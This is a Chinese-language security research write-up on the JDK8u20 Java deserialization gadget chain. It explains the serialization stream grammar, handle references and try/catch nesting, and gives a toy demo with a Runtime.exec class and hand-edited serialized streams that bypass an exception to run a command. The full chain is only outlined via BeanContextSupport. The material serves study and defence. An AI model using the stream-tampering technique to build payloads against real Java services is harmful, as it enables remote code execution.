







# JDK8u20

## 0x00 JDK7u21 怎么修复的漏洞

对比一下 JDK7u21 的修复版本，在 `sun.reflect.annotation.AnnotationInvocationHandler` 的 `readObject()` 方法中，存在一个对 type的检查，在判断不是 AnnotationType 的情况下由原来的 return 变成抛出一个异常来终止反序列化过程，因为原本 return 的方式只是结束了当前函数的执行，并不影响反序列化过程。



先来看一下 `AnnotationInvocationHandler` 重写的 `readObject()` 方法。

```java
private void readObject(java.io.ObjectInputStream s)
    throws java.io.IOException, ClassNotFoundException {
    s.defaultReadObject();


    // Check to make sure that types have not evolved incompatibly

    AnnotationType annotationType = null;
    try {
        annotationType = AnnotationType.getInstance(type);
    } catch(IllegalArgumentException e) {
        // Class is no longer an annotation type; time to punch out
        throw new java.io.InvalidObjectException("Non-annotation type in annotation serial stream");
    }

    Map<String, Class<?>> memberTypes = annotationType.memberTypes();


    // If there are annotation members without values, that
    // situation is handled by the invoke method.
    for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) {
        String name = memberValue.getKey();
        Class<?> memberType = memberTypes.get(name);
        if (memberType != null) {  // i.e. member still exists
            Object value = memberValue.getValue();
            if (!(memberType.isInstance(value) ||
                  value instanceof ExceptionProxy)) {
                memberValue.setValue(
                    new AnnotationTypeMismatchExceptionProxy(
                        value.getClass() + "[" + value + "]").setMember(
                            annotationType.members().get(name)));
            }
        }
    }
}
```

在这个方法中调用了 `defaultReadObject()` ，这个方法会完成标准的字段反序列化，恢复对象的状态。具体来说就是会恢复没有被标记为 `transient` 的字段，并且将读取的字段值重新赋值给相应的对象字段，从而恢复对象的状态 。

总之这个方法的主要目的是为了简化自定义的反序列化逻辑，使得在自实现 `readObject()` 方法中只关注额外的自定义逻辑，而不必手动处理默认序列化字段的读取和状态恢复。

而在恢复对象状态后才调用了 `AnnotationType.getInstance(type)` 方法判断传入的 type 是否为 `AnnotationType` 类型，不满足条件则抛出异常。这个时候就产生一个问题，在异常抛出前对象已经通过反序列化恢复了，如果能逃脱异常的抛出，就能实现反序列化利用，这个也是 JDK8u20 的漏洞思想。

正式开启 JDK8u20 gadget 构建前还需要先了解一下 Java 的必要知识

## 0x01 Java 前置知识

### Try/catch

通过一个简单的 demo ，我们来看一下当 Try/catch 发生嵌套时会发生什么工作原理。

```java
public class tryCatch {
    public static void main(String[] args) {
        errFunc();
    }

    public static void errFunc() {
        try {
            normalFunc();
            int num = 1 / 0;
        } catch (Exception e) {
            System.out.println("errFunc() error");
            throw e;
        }
        System.out.println("errFunc() end");
    }

    public static void normalFunc() {
        try {
            System.out.println("normal");
        } catch (Exception e) {
            System.out.println("normalFunc() error");
            throw e;
        }
        System.out.println("normalFunc() end");
    }
}
```

排列组合对嵌套的几种情况进行测试，测试结果如下，我们目前期望对一个有异常抛出的方法进行嵌套，所以只需要看 A、B 两点，我们发现，如果方法本身是一个无异常抛出的 Try/catch 方法，无论方法本身和被调用的方法是否正确，都会将该进程执行结束，即都会调用到 end 输出。

```java
// 有异常抛出调用有异常抛出
A1. errFunc()，先正常、后异常：
      normal
      normalFunc() end
      errFunc() error
A2. errFunc()，先异常、后正常：
      errFunc() error
A3. normalFunc()，先正常、后异常：
      normal
      errFunc() error
      normalFunc() error
A4. normalFunc()，先异常、后正常：
      errFunc() error
      normalFunc() error

// 无异常抛出调用有异常抛出
B1. errFunc()，先正常、后异常：
      normal
      normalFunc() end
      errFunc() error
      errFunc() end
B2. errFunc()，先异常、后正常：
      errFunc() error
			errFunc() end
B3. normalFunc()，先正常、后异常：
      normal
      errFunc() error
      normalFunc() error
      normalFunc() end
B4. normalFunc()，先异常、后正常：
      errFunc() error
      normalFunc() error
      normalFunc() end
  
// 有异常抛出调用无异常抛出
C1. errFunc()，先正常、后异常：
      normal
      normalFunc() end
      errFunc() error
C2. errFunc()，先异常、后正常：
      errFunc() error
C3. normalFunc()，先正常、后异常：
      normal
      errFunc() error
      errFunc() end
      normalFunc() end
C4. normalFunc()，先异常、后正常：
      errFunc() error
      errFunc() end
      normal
      normalFunc() end
  
// 无异常抛出调用无异常抛出
D1. errFunc()，先正常、后异常：
      normal
      normalFunc() end
      errFunc() error
      errFunc() end
D2. errFunc()，先异常、后正常：
      errFunc() error
      errFunc() end
D3. normalFunc()，先正常、后异常：
      normal
      errFunc() error
      errFunc() end
      normalFunc() end
D4. normalFunc()，先异常、后正常：
      errFunc() error
      errFunc() end
      normal
      normalFunc() end
```

### Java序列化流语法

通过一个 demo 来分析一下序列化流的语法

```java
public class Grammer implements Serializable {
    public String name;
    private Integer phone;

    public String getName() {
        return name;
    }

    public void setName(String name) {
        this.name = name;
    }

    public Integer getPhone() {
        return phone;
    }

    public void setPhone(Integer phone) {
        this.phone = phone;
    }
}

public class GrammerMake {
    public static void main(String[] args) throws Exception{
        Grammer grammer = new Grammer();
        grammer.setName("Whoopsunix");
        grammer.setPhone(123456);

        ByteArrayOutputStream byteSteam = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(byteSteam);
        oos.writeObject(grammer);
        System.out.println(Base64.encodeBase64String(byteSteam.toByteArray()));
    }
}
```

首先生成一段序列化流，使用 [zkar](https://github.com/phith0n/zkar) 进行分析，语法参考 [文档](https://docs.oracle.com/javase/8/docs/platform/serialization/spec/protocol.html) 



以下是对这段文本的大致解读：

- `@Magic` 和 `@Version` 表示序列化文件的标志 0xac ed 和版本号 
- `@Contents` 开始了对象的内容描述 
- `TC_OBJECT - 0x73` 表示这是一个对象类型的数据 
- `TC_CLASSDESC - 0x72` 表示对象的类描述符 
  - `@ClassName` 表示类名，长度为44，值为`yspserial.payloads.gadgets.study.jdk.Grammer` 
  - `@SerialVersionUID` 表示序列化版本号，值为1909484913240732745 
  - `@Handler` 表示处理程序标识，后续累加 
  - `@ClassDescFlags` 表示类描述符的标志，标记为可序列化 
  - `@FieldCount` 表示字段数量为2 
  - `[]Fields` 表示类的字段信息 
    - `Index 0` 表示第一个字段 
      - `Object - L - 0x4c` 表示字段类型为对象引用 
      - `@FieldName` 表示字段名为`name` 
      - `@ClassName` 表示类名为`java.lang.String` 
    - `Index 1` 表示第二个字段 
      - `Object - L - 0x4c` 表示字段类型为对象引用 
      - `@FieldName` 表示字段名为`phone` 
      - `@ClassName` 表示类名为`java.lang.Integer` 
  - `[]ClassAnnotations` 表示类的注解信息 
    - `TC_ENDBLOCKDATA - 0x78` 表示类注解的结束 
  - `@SuperClassDesc` 表示超类的类描述符，为空 
- `[]ClassData` 表示类的数据信息 
  - `@ClassName - yspserial.payloads.gadgets.study.jdk.Grammer` 表示类名为`yspserial.payloads.gadgets.study.jdk.Grammer` 
    - `{}Attributes` 表示类的属性信息 
      - `name` 表示字段名为`name` 
        - `TC_STRING - 0x74` 表示字符串类型 
        - `@Handler` 表示处理程序标识 
        - `@Length` 表示长度为10 
        - `@Value` 表示值为`Whoopsunix` 
      - `phone` 表示字段名为`phone` 
        - `TC_OBJECT - 0x73` 表示对象类型的字段 
        - `TC_CLASSDESC - 0x72` 表示字段的类描述符 
          - `@ClassName` 表示类名为`java.lang.Integer` 
          - `@SerialVersionUID` 表示序列化版本号 
          - `@Handler` 表示处理程序标识 
          - `@ClassDescFlags` 表示类描述符标志 
          - `@FieldCount` 表示字段数量 
          - `[]Fields` 表示类的字段信息 
            - `Index 0` 表示第一个字段 
              - `Integer - I - 0x49` 表示字段类型为整数 
              - `@FieldName` 表示字段名为`value` 
          - `[]ClassAnnotations` 表示类的注解信息 
          - `@SuperClassDesc` 表示超类的类描述符 
            - `TC_CLASSDESC - 0x72` 表示超类的类描述符 
              - `@ClassName` 表示类名为`java.lang.Number` 
              - `@SerialVersionUID` 表示序列化版本号 
              - `@Handler` 表示处理程序标识 
              - `@ClassDescFlags` 表示类描述符标志 
              - `@FieldCount` 表示字段数量 
              - `[]Fields` 表示类的字段信息 

通过这个案例对序列化数据的基本结构有了一个基本的了解，反序列化时会依次读取序列化数据进行还原，那么我们也可以按照语法插入一段符合语法的序列化数据来篡改。

### 引用机制

在分析 fastjson 原生反序列化时提到了 `java.io.ObjectInputStream#readObject0()` 当时简单的接触了引用的概念，`TC_NULL`、`TC_REFERENCE`、`TC_STRING`、`TC_LONGSTRING`、`TC_EXCEPTION` 这些类型在序列化时都会对应的描述信息，每一个对象都会被赋予引用 Handle ，并且存在特殊的 Handle ，通过 `TC_REFERENCE` 结构可以反向引用该对象。



比如我们对之前的例子再序列化一次，序列化数据的末尾就会增加一个 TC_REFERENCE 引用，在反序列化时就会进入 `readHandle()` 函数，通过 Handle 去尝试寻找关联的对象。



### 成员抛弃

1. 字段不存在于字节流中：如果反序列化过程中，字节流中没有某个字段的数据，那么该字段会被赋予其在类中定义的默认值。例如，如果字段是整数类型，则会被初始化为0，如果是引用类型，则会被初始化为 null。
2. 字段存在于字节流中但不属于对象：如果字节流中包含某个字段的数据，但该字段并不属于当前被反序列化的对象，Java会将这个字段的数据抛弃，而不会对当前对象的对应字段进行任何操作。
3. 字段为对象并存在于字节流中：如果字节流中包含某个字段的数据，且该字段是一个对象的引用，Java 会为这个字段的数据分配一个特殊的句柄（handle）。句柄类似于对象的标识符，它在当前序列化过程中唯一标识这个对象，在反序列化过程中遇到同一对象的多个引用，Java 可以通过 handle 来确保只创建一个实际的对象。

### 重写 writeObject 方法

我们重写 `writeObject()` 看会发生什么

```java
private void writeObject(ObjectOutputStream output) throws IOException {
    output.defaultWriteObject();
    output.writeObject("this is object write");
    output.writeUTF("this is utf data");
}
```

两次代码的变化主要体现在：

@ClassDescFlags 中增加了一个 SC_WRITE_METHOD 标识

增加 @ObjectAnnotation 写入自定义的数据

```
@ClassDescFlags - SC_SERIALIZABLE|SC_WRITE_METHOD - 0x03

@ObjectAnnotation
  TC_STRING - 0x74
    @Handler - 8257544
    @Length - 20 - 0x00 14
    @Value - this is object write - 0x74 68 69 73 20 69 73 20 6f 62 6a 65 63 74 20 77 72 69 74 65
  TC_BLOCKDATA - 0x77
    @Blockdata - 0x00 10 74 68 69 73 20 69 73 20 75 74 66 20 64 61 74 61
  TC_ENDBLOCKDATA - 0x78
```

那么我们根据 Java 序列化数据的语法实现 `writeObject()` 方法的篡改，增加我们想要的数据。

## 0x02 整理思路实现Demo

我们现在已知一个必定会报错的类 `AnnotationInvocationHandler` 存在 Try/catch 这种写法，而我们找到一个无异常抛出的 KickOff 类，根据前文的定义我们知道用 KickOff 类去嵌套 `AnnotationInvocationHandler` 不会报错，那么我们就能获取到一个反序列化后得到对象。

```java
public class AnnotationInvocationHandler implements Serializable {
    public void exec(String cmd) throws IOException {
        Runtime.getRuntime().exec(cmd);
    }
    private void readObject(ObjectInputStream input) throws Exception {
        input.defaultReadObject();
        try{
            int num = 1/0;
        }catch (Exception e){
            throw e;
        }
    }
}
```

```java
public class KickOff implements Serializable {
    private void readObject(ObjectInputStream input) throws Exception {
        input.defaultReadObject();
        try{
            input.readObject();
        }catch (Exception e){

        }
    }
}
```

### 序列化 KickOff 类

还是一样用 zkar 进行分析

```
(base) ppp@ppp-windows zkar % ./zkar dump --base64 rO0ABXNyACx5c3BzZXJpYWwucGF5bG9hZHMuZ2FkZ2V0cy5zdHVkeS5qZGsuS2lja09mZpaYyxCJCRfbAgAAeHA=
@Magic - 0xac ed
@Version - 0x00 05
@Contents
  TC_OBJECT - 0x73
    TC_CLASSDESC - 0x72
      @ClassName
        @Length - 44 - 0x00 2c
        @Value - yspserial.payloads.gadgets.study.jdk.KickOff - 0x79 73 70 73 65 72 69 61 6c 2e 70 61 79 6c 6f 61 64 73 2e 67 61 64 67 65 74 73 2e 73 74 75 64 79 2e 6a 64 6b 2e 4b 69 63 6b 4f 66 66
      @SerialVersionUID - -7595097499681351717 - 0x96 98 cb 10 89 09 17 db
      @Handler - 8257536
      @ClassDescFlags - SC_SERIALIZABLE - 0x02
      @FieldCount - 0 - 0x00 00
      []Fields
      []ClassAnnotations
        TC_ENDBLOCKDATA - 0x78
      @SuperClassDesc
        TC_NULL - 0x70
    @Handler - 8257537
    []ClassData
      @ClassName - yspserial.payloads.gadgets.study.jdk.KickOff
        {}Attributes
```

### 序列化 AnnotationInvocationHandler 类

```
(base) ppp@ppp-windows zkar % ./zkar dump --base64 rO0ABXNyAEB5c3BzZXJpYWwucGF5bG9hZHMuZ2FkZ2V0cy5zdHVkeS5qZGsuQW5ub3RhdGlvbkludm9jYXRpb25IYW5kbGVyZvhfvDIVXVACAAB4cA==
@Magic - 0xac ed
@Version - 0x00 05
@Contents
  TC_OBJECT - 0x73
    TC_CLASSDESC - 0x72
      @ClassName
        @Length - 64 - 0x00 40
        @Value - yspserial.payloads.gadgets.study.jdk.AnnotationInvocationHandler - 0x79 73 70 73 65 72 69 61 6c 2e 70 61 79 6c 6f 61 64 73 2e 67 61 64 67 65 74 73 2e 73 74 75 64 79 2e 6a 64 6b 2e 41 6e 6e 6f 74 61 74 69 6f 6e 49 6e 76 6f 63 61 74 69 6f 6e 48 61 6e 64 6c 65 72
      @SerialVersionUID - 7419785647991643472 - 0x66 f8 5f bc 32 15 5d 50
      @Handler - 8257536
      @ClassDescFlags - SC_SERIALIZABLE - 0x02
      @FieldCount - 0 - 0x00 00
      []Fields
      []ClassAnnotations
        TC_ENDBLOCKDATA - 0x78
      @SuperClassDesc
        TC_NULL - 0x70
    @Handler - 8257537
    []ClassData
      @ClassName - yspserial.payloads.gadgets.study.jdk.AnnotationInvocationHandler
        {}Attributes
```

### 通过 @ObjectAnnotation 写入 AnnotationInvocationHandler

并且需要修改 `TC_REFERENCE` 中的  `Handler` 值为 `ObjectAnnotation` 中最后一个 `Handler`  的值，并修改 `classDescFlags` 值为 `SC_SERIALIZABLE|SC_WRITE_METHOD - 0x03`

```
@Magic - 0xac ed
@Version - 0x00 05
@Contents
  TC_OBJECT - 0x73
    TC_CLASSDESC - 0x72
      @ClassName
        @Length - 44 - 0x00 2c
        @Value - yspserial.payloads.gadgets.study.jdk.KickOff - 0x79 73 70 73 65 72 69 61 6c 2e 70 61 79 6c 6f 61 64 73 2e 67 61 64 67 65 74 73 2e 73 74 75 64 79 2e 6a 64 6b 2e 4b 69 63 6b 4f 66 66
      @SerialVersionUID - -7595097499681351717 - 0x96 98 cb 10 89 09 17 db
      @Handler - 8257536
      @ClassDescFlags - SC_SERIALIZABLE|SC_WRITE_METHOD - 0x03
      @FieldCount - 0 - 0x00 00
      []Fields
      []ClassAnnotations
        TC_ENDBLOCKDATA - 0x78
      @SuperClassDesc
        TC_NULL - 0x70
    @Handler - 8257537
    []ClassData
      @ClassName - yspserial.payloads.gadgets.study.jdk.KickOff
        {}Attributes
        @ObjectAnnotation
          TC_OBJECT - 0x73
            TC_CLASSDESC - 0x72
              @ClassName
                @Length - 64 - 0x00 40
                @Value - yspserial.payloads.gadgets.study.jdk.AnnotationInvocationHandler - 0x79 73 70 73 65 72 69 61 6c 2e 70 61 79 6c 6f 61 64 73 2e 67 61 64 67 65 74 73 2e 73 74 75 64 79 2e 6a 64 6b 2e 41 6e 6e 6f 74 61 74 69 6f 6e 49 6e 76 6f 63 61 74 69 6f 6e 48 61 6e 64 6c 65 72
              @SerialVersionUID - 7419785647991643472 - 0x66 f8 5f bc 32 15 5d 50
              @Handler - 8257538
              @ClassDescFlags - SC_SERIALIZABLE - 0x02
              @FieldCount - 0 - 0x00 00
              []Fields
              []ClassAnnotations
                TC_ENDBLOCKDATA - 0x78
              @SuperClassDesc
                TC_NULL - 0x70
            @Handler - 8257539
            []ClassData
              @ClassName - yspserial.payloads.gadgets.study.jdk.AnnotationInvocationHandler
                {}Attributes
          TC_ENDBLOCKDATA - 0x78
  TC_REFERENCE - 0x71
    @Handler - 8257539 - 0x00 7e 00 03
```

最后成功绕过 `AnnotationInvocationHandler` 的异常抛出弹出计算器。



## 0x03 调用链编写

经过前面的分析，JDK8u20 这条调用链的关键其实就是去寻找符合我们构建条件的 KickOff 使其成功外层嵌套 `AnnotationInvocationHandler` 的 Try/catch 方法，保证反序列化流程不会被终止，而 jdk 中存在一个符合条件的类 `java.beans.beancontext.BeanContextSupport` ，其 `readChildren()` 方法符合我们的需求。



并且 `readChildren()` 方法通过 `readObject()` 调用。




**参考**

> 用一个 case 去理解 jdk8u20  https://www.cnpanda.net/sec/974.html
>
> 以一种更简单的方式构造JRE8u20 Gadget  https://github.com/feihong-cs/jre8u20_gadget
>
> 原生反序列化链 jdk8u20 的新构造 1nhann  https://tttang.com/archive/1729/
